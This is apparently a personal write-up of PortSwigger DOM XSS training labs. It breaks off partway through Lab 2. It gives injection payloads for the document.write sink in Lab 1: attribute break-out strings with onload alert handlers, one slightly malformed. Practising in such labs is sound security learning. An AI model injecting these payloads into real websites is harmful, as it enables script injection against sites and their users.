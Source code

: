 ## Lab 1: [DOM XSS in document.write sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)
- Search for Any Random String > Inspect in Firefox (better) > Find the Searched String

![image](https://github.com/user-attachments/assets/1e9f6014-208e-4b8f-a1ce-db9fa2c1e7bf)

- Inspect the query > the Query is directly passing by Document.write() to DOM via <img> tag.
- Injection: `" onload="alert("qwerty")">` in search section
- <img src="/resources/images/tracker.gif?searchTerms=`" onload="alert("qwerty")">`
---
OR
---
- Injection: `">< svg onload="alert("qwerty")>` in search section
- <img src="/resources/images/tracker.gif?searchTerms=`">< svg onload="alert("qwerty")>`

## Lab 2: [DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)
- Analyse the JS code: ![image](https://github.com/user-attachments/assets/b66c8c00-f07b-416e-8d3c-5fab24d55c78)
- ![image](https://github.com/user-attachments/assets/2d92d551-25ba-478b-a78d-8144a66e0b8e)
- 


